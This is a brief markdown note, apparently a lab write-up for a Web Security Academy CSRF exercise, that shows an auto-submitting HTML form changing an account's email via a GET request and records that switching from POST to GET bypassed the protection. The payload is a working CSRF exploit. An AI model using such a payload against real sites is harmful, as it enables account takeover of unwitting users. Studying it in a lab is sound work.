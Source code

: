 # CSRF Vulnerability


![****](/CSRF/Screenshots/csrf2.PNG)

## Let generate some Payloads!

```php
<form method="GET" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- We change the request method from Post to **Get** and it worked!